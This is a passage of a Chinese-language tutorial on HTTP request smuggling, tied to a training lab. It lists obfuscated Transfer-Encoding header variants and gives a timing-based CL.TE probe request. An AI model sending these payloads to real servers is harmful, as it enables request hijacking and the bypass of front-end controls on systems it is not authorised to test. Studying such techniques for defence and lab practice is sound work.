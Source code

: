 ```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

```

下面我们通过一道靶场来深入理解这种攻击手段

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9AHTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E6%94%BB%E5%87%BB%E4%B8%AD%E7%9A%84%E6%B7%B7%E6%B7%86TE%E5%A4%B4"></a>配套靶场：HTTP请求走私攻击中的混淆TE头

我们只要对两个TE头做混淆，所以我们构造如下paylaod

[<img class="aligncenter" alt="" data-original="https://p1.ssl.qhimg.com/t01b94580003f722067.png">](https://p1.ssl.qhimg.com/t01b94580003f722067.png)

我们看到有两个TE头，但是有一个TE头是做了混淆的，所以就会导致在后端的时候不使用TE头来处理此时会转而采用CL头处理，从而将一个HTTP请求拆分成两个，导致HTTP走私攻击

[<img class="aligncenter" alt="" data-original="https://p0.ssl.qhimg.com/t0127c3e1bfd2f5876a.png">](https://p0.ssl.qhimg.com/t0127c3e1bfd2f5876a.png)



## 寻找HTTP请求走私攻击

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%AE%A1%E6%97%B6%E6%8A%80%E6%9C%AF%E5%8F%91%E7%8E%B0HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E6%BC%8F%E6%B4%9E"></a>利用计时技术发现HTTP请求走私漏洞

**<a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%AE%A1%E6%97%B6%E6%8A%80%E6%9C%AF%E5%8F%91%E7%8E%B0CL.TE%E6%BC%8F%E6%B4%9E"></a>利用计时技术发现CL.TE漏洞**

当同时存在CL头和TE头时，如果请求包正文的长度大于CL头指定的长度，则会导致请求包只有CL头指定长度内的内容，从而导致后端服务器因为采用TE头处理而一直等待后续请求包，最终会导致超时，故可以证明存在CL.TE漏洞，例如

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X

```
